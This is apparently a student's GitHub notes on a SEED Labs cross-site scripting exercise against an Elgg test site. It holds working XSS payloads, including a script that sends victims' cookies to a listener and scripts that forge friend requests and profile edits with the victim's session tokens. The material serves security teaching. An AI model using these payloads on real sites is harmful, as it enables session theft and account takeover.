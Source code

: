 # Independent study on web security issues( Based on Seedlab, Syracuse University) 

## Cross site Scripting 

### Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

### Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=ts+token+"&name=Charlie&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=41"; 
Ajax.send(content);
</script>
```

JSON parse for guid
```javascript 
<script>
var owner = JSON.parse(elgg.page_owner);
alert(owner.guid);
</script>
```
